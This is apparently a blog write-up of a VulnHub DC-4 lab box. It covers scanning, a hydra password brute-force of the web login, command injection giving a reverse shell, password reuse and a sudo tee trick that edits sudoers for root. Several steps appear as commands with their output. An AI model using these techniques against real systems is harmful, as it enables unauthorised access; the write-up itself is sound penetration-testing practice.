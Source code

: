 ```yaml
---
title: Vulnhub - DC-4
date: 2023-03-28
author: Marius
tags: [ctf, 'vulnhub', 'linux']
---
```


Intermediate rated Linux box found in VulnHub or PG Play.

### Enumeration

```
└─$ rustscan -a 192.168.155.195 -- -sC -sV  | tee nmap

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCp6/VowbK8MWfMDQsxHRV2yvL8ZO+FEkyIBPnDwTVKkJiVKaJMZ5ztAwTnkc30c3tvC/yCqDAJ5IbHzgvR3kHKS37d17K+/OLxalDutFjrWjG7mBxhMW/0gnrCqJokZBDXDuvHQonajsfSN6FmWoP0PDsfL8NQXwWIoMvTRYHtiEQqczV5CYZZtMKuOyiLCiWINUqKMwY+PTb0M9RzSGYSJvN8sZZnvIw/xU7xBCmaWuq8h2dIfsxy+FhrwZMhvhJOpBYtwZB+hos3bbV5FKHhVztxEo+Y2vyKTl6MXJ4qwCChJdaBAip/aUt1zDoF3cIb+yebteyDk8KIqmp5Ju4r
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIbZ4PXPXShXCcbe25IY3SYbzB4hxP4K2BliUGtuYSABZosGlLlL1Pi214yCLs3ORpGxsRIHv8R0KFQX+5SNSog=
|   256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDcvQZ2DbLqSSOzIbIXhyrDJ15duVKd9TEtxfX35ubsM
80/tcp open  http    syn-ack nginx 1.15.10
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web server

Looks like I have discovered admin login page.

![webserver login](/assets/img/dc-4/1.png)

Performed various enumeration, default credentials, directory brute-forcing, SQLi, but this did not result in anything useful. I have found **command.php**, but accessing it is prohibited as I need to log in.

### Exploitation

Looks like this needs to be brute-forced. So I spun up hydra for the job. Password was found in a couple of minutes using **rockyou.txt.**

```
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.155.195 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -I 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-28 08:18:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.155.195:80/login.php:username=^USER^&password=^PASS^:S=logout
[80][http-post-form] host: 192.168.155.195   login: admin   password: happy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-28 08:19:25
```

After logging into the webserver, I have noticed that this might be vulnerable to command injection. I've edited my request using Burp to include a reverse shell, and surely I got a connection back to my listener.

![admin page](/assets/img/dc-4/2.png)

![burp request](/assets/img/dc-4/3.png)


```
└─$ nc -nvlp 80             
listening on [any] 80 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.155.195] 45814
whoami
www-data
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-4:/usr/share/nginx/html$ 
```

### Privilege Escalation

By snooping around in other user directories, I have found local.txt flag and backup folder with presumably old passwords.

```
www-data@dc-4:/home/jim$ ls -la
ls -la
total 36
drwxr-xr-x 3 jim  jim  4096 Mar 28 22:00 .
drwxr-xr-x 5 root root 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim  jim   220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 jim  jim  3526 Apr  6  2019 .bashrc
-rw-r--r-- 1 jim  jim   675 Apr  6  2019 .profile
drwxr-xr-x 2 jim  jim  4096 Apr  7  2019 backups
-rw-r--r-- 1 root root   33 Mar 28 22:00 local.txt
-rw------- 1 jim  jim   528 Apr  6  2019 mbox
-rwsrwxrwx 1 jim  jim   174 Apr  6  2019 test.sh

www-data@dc-4:/home/jim/backups$ ls -la
ls -la
total 12
drwxr-xr-x 2 jim jim 4096 Apr  7  2019 .
drwxr-xr-x 3 jim jim 4096 Mar 28 22:00 ..
-rw-r--r-- 1 jim jim 2047 Apr  7  2019 old-passwords.bak
```

I've launched Hydra again, utilizing found list to attempt brute-force Jim's password. Perhaps he's reusing one of his old passwords.

![hydra](/assets/img/dc-4/4.png)

I have logged on as jim using this password and noticed Jim has mail. By inspecting mail I have found Charles password.

![mail](/assets/img/dc-4/5.png)

I've logged on as Charles and checked what he can run as sudo.

```
charles@dc-4:/tmp$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

I'm not sure what **teehee** is, but after running **strings** command on this binary, I've found a help message.

![help](/assets/img/dc-4/6.png)

By googling text from this help message, I've found out that this is **tee** binary. This can be exploited to add user Charles to **sudoers** list to complete this machine.

![commands](/assets/img/dc-4/7.png)

GG, I am root.




